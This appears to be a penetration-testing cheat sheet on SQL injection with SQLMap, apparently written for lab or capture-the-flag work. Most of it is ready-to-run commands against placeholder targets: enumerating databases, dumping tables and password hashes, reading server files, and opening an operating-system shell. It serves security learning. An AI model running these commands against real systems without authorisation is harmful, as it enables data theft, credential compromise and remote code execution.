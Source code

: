 [[Injection/SQL Injection]]
- Find SQL injection vulnerabilities before executing SQLMap for PoC.
- Multi-threading can be bad for time-based data retrieval.
- Risk > 3 to enable 'OR' based injections
- Data retrieval sometimes doesn't work for UNION, TIME-BASED or BOOLEAN (--no-cast) might help.

Testing command
- [ ] --batch to allow 'Y' for everything
```bash
sqlmap -u 'http://example.com' --risk=3 --level=5 --threads=5 --batch
```

JSON + Complex request
```bash
sqlmap -r req.txt -p 'param1' -p 'param2'
```

**Data Exfiltration**
- [ ] Check Version (--banner)
- [ ] Check user and check admin (--current-user --is-dba) -> privilege to read files
- [ ] Check database (--current-db)
```bash
sqlmap -r req.txt --banner --current-user --current-db --is-dba
```
Database, Tables and Columns
- [ ] Dump all tables (--tables & require -D)
- [ ] Conditional (--where="name LIKE 'f%'")
- [ ] Dump all (--dump-all) & exclude system db (not interesting, --exclude-sysdbs)
```bash
sqlmap -r req.txt --dump -D database -T table1 -C column1,column2
```
Dumping schema
```bash
sqlmap -r req.txt --dump -D database --schema
```
Searching for data
```bash
sqlmap -r req.txt --search -T users
```
DB Users passwords
```bash
sqlmap -r req.txt --passwords
```

**Attack Escalation**
- [ ] Is database admin
Reading files
```bash
sqlmap -r req.txt --file-read "/var/www/html/flag.txt"
```
RCE
```bash
sqlmap -r req.txt --os-shell
```